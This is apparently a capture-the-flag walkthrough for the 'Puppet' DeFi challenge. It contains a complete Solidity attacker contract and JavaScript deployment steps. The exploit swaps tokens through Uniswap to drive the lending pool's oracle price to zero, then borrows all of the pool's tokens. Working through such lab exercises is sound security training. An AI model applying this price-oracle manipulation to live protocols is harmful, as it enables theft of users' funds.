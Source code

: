 # Puppet

**HINT:** Look at the function ```computeOraclePrice()``` and how it calculates the price.

<details>
<summary>Part 1</summary>
<p>

Because it calculates the price wrong we can manipulate it with a few steps 
```
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

interface IPuppetPool {
    function computeOraclePrice() external view returns (uint256);
    function borrow(uint256 borrowAmount) external payable;
}

interface IUniswapExchange {
    function tokenToEthSwapInput(uint256 tokens_sold, uint256 min_eth, uint256 deadline) external returns (uint256);
}

    
contract PuppetAttacker {
    IERC20 token;
    IPuppetPool pool;
    IUniswapExchange uniswap;

    constructor(IERC20 _token, IPuppetPool _pool, IUniswapExchange _uniswap) public {
        token = _token;
        pool = _pool;
        uniswap = _uniswap;
    }

    function attack(uint256 amount) public {
        require(token.balanceOf(address(this)) >= amount, "not enough tokens");
        token.approve(address(uniswap), amount);
        uint256 ethGained = uniswap.tokenToEthSwapInput(amount, 1, block.timestamp + 1);
        require(pool.computeOraclePrice() == 0, "oracle price not 0");
        pool.borrow(token.balanceOf(address(pool)));
        require(
            token.transfer(msg.sender, token.balanceOf(address(this))),
            "token transfer failed"
        );
        msg.sender.transfer(ethGained);
    }
    
    receive() external payable {}
}
```

</p>
</details>

<details>
<summary>Part 2</summary>
<p>

Now go to ```puppet.challenge.js``` and at the top of the file add:
```js
const PuppetAttacker = contract.fromArtifact("PuppetAttacker");
```
And at ```Exploit``` add:
```js
 this.attacker = await PuppetAttacker.new(
      this.token.address,
      this.lendingPool.address,
      this.uniswapExchange.address,
      { from: attacker }
    );

    await this.token.transfer(this.attacker.address, ATTACKER_INITAL_TOKEN_BALANCE, {
      from: attacker,
    });
    await this.attacker.attack(ether(`0.1`).toString(), { from: attacker });
  });
```

```sh
npm run puppet.challenge.js
```

</p>
</details>
